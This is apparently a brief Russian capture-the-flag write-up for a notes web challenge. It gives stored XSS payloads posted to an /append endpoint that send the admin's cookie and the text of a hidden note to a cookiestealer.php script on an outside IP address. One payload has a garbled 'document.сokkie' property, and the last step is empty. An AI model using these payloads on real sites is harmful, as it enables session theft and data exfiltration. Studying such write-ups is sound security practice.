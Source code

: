 1. Проверям на xss передав <script>alert("TEST");</script> в notes. Видим, что проэксплуатировать его здесь получиться.

2. Видим, что http://notes.ctf2019.rocks/append принимает id юзера в параметрах. Из исходного кода страницы находим,
что у admin-а id=1.

3. Передаем в http://notes.ctf2019.rocks/append параметры 
append=<script>document.location='http://89.163.129.121:9999/cookiestealer.php?c='.concat(document.сokkie);</script>
id=1   
и получаем доп флаг.

4. Смотрим js path к hidden записи админа.
Передаем  в http://notes.ctf2019.rocks/append параметры 
append=<script type="text/javascript">document.location='http://89.163.129.121:9999/cookiestealer.php?c='.concat(document.querySelector('body > div:nth-child(2) > div:nth-child(1) > p:nth-child(2)').innerText);</script>
id=1 и получаем влаг.

5.
